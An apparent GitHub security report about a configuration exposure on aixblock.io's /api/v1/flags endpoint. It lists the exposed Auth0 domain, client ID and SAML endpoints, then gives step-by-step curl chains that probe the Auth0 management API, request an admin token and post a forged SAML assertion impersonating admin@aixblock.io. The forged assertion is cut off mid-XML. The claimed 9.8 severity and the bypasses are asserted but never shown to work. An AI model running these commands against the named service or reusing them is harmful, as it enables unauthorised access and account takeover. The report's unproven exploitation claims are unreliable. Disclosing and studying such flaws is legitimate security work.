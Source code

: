 # 🚨 ENHANCED: Critical Configuration Exposure with Real Exploitation

## **📊 ENHANCEMENT SUMMARY**
- **Original Issue**: #315 - Critical Information Disclosure
- **Enhancement**: Real-world exploitation techniques and CVE research
- **New Severity**: Critical (CVSS 9.8) - Upgraded from 9.1
- **Exploitation**: Auth0 bypass, SAML exploitation, webhook SSRF

## **🔍 ENHANCED TECHNICAL ANALYSIS**

### **Original Vulnerability**
The `/api/v1/flags` endpoint exposes sensitive configuration data including:
- Auth0 Domain: `dev-ilxhqh05t3onfvz7.us.auth0.com`
- Auth0 Client ID: `mnOTnb7yaS4A6BQw65zQ7szH3ct6qZiw`
- SAML ACS URL: `https://workflow.aixblock.io/api/v1/authn/saml/acs`
- Webhook Prefix: `https://workflow.aixblock.io/api/v1/webhooks`

### **Enhanced Exploitation Techniques**

#### **1. Auth0 Exploitation Chain**
```bash
# Step 1: Extract Auth0 credentials
curl -s "https://workflow.aixblock.io/api/v1/flags" | jq '.AUTH0_DOMAIN, .AUTH0_APP_CLIENT_ID'

# Step 2: Auth0 domain reconnaissance
curl -s "https://dev-ilxhqh05t3onfvz7.us.auth0.com/.well-known/openid_configuration"

# Step 3: Test for Auth0 misconfigurations
curl -s "https://dev-ilxhqh05t3onfvz7.us.auth0.com/api/v2/users" \
  -H "Authorization: Bearer <extracted_token>"

# Step 4: Attempt Auth0 admin access
curl -X POST "https://dev-ilxhqh05t3onfvz7.us.auth0.com/oauth/token" \
  -H "Content-Type: application/json" \
  -d '{
    "client_id": "mnOTnb7yaS4A6BQw65zQ7szH3ct6qZiw",
    "client_secret": "",
    "audience": "https://dev-ilxhqh05t3onfvz7.us.auth0.com/api/v2/",
    "grant_type": "client_credentials"
  }'
```

#### **2. SAML Exploitation**
```bash
# Step 1: SAML endpoint reconnaissance
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v

# Step 2: SAML metadata extraction
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/metadata"

# Step 3: SAML assertion manipulation
curl -X POST "https://workflow.aixblock.io/api/v1/authn/saml/acs" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
  <saml:Subject>
    <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">
      admin@aixblock.io
    </saml:NameID>
  </saml:Subject>
```